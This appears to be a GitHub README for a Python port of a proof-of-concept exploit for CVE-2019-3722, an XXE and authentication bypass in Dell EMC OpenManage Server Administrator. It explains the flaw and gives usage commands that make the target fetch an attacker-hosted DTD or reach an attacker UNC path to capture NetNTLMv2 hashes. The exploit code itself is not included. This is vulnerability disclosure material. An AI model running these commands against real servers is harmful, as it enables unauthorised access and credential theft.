# CVE-2019-3722: Dell EMC OpenManage Server Administrator (OMSA) XXE

## Information
**Description:** This is just a python port of the exploit found here: https://www.exploit-db.com/exploits/39909.  
**Versions Affected:** confirmed on 8.3 and 7.3  
**Researcher:** Original research: hantwister exploit ported by: @daveysec  
**Disclosure Link:** https://www.exploit-db.com/exploits/39909  
**NIST CVE Link:** https://nvd.nist.gov/vuln/detail/CVE-2019-3722  

## Proof-of-Concept Exploit
### Description
This abuses the way OMSA handles authentication to bypass authentication and forces the server to make a request which is vulnerable to XXE in the response sent by the attacker.  

### Usage/Exploitation
Your attacking host must be reachable on port 443 from the target.
`CVE-2019-3722.py <yourip> <target:port> <path for XXE>`  

Example:  
`CVE-2019-3722.py 192.168.0.1 192.168.0.2:1311 http://192.168.0.1:8080/xxe.dtd`

Or use it to intercept a NetNTLMv2 hash:  
`CVE-2019-3722.py 192.168.0.1 192.168.0.2:1311 file://\\192.168.0.1`  
